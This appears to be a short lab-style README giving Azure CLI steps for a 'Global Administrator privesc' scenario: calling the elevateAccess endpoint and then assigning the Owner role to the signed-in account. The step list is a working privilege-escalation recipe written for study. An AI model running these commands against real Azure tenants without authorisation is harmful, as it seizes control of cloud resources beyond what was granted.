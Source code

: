 # Global Administartor Privesc Scenarios

## Scenario 1 steps:

 - az login (Login as the Global Admin)

 - az login --allow-no-subscriptions (Get tenant-level access, then sign in again)

 - az rest --method post --url "/providers/Microsoft.Authorization/elevateAccess?api-version=2016-07-01" (Exploit the Global Admin role to modify privileges to Azure resources)

 - az logout

 - az login (Reauthenticate back)

 - userPrincipalName=$(az ad signed-in-user show --query userPrincipalName -o tsv)

 - az role assignment create --role "Owner" --assignee $userPrincipalName (Assign the subscription Owner role to the Global Administrator account)

### The commands will be successful, proving that you have used your elevated Global Administrator role to modify permissions for Azure resources!

